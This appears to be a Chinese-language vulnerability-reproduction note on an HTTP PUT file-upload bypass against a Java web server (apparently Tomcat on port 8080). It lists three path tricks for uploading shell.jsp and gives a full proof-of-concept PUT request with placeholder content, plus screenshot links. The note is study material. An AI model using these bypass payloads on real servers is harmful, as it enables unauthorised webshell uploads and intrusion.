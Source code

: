 ### 漏洞复现

 支持三种上传绕过方式 默认使用 put 加文件名是失败的，需要绕过 
```
PUT /shell.jsp/
PUT /shell.jsp%20
PUT /shell.jsp::$DATA
```
POC
```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

![image.png](18.中间件安全\1693404075919-c89e7dcd-dfa0-4df4-9807-8500720d31e1.png)


![image.png](18.中间件安全\1693404129264-32c2c297-ff5b-498b-924b-77c488da22ac.png)

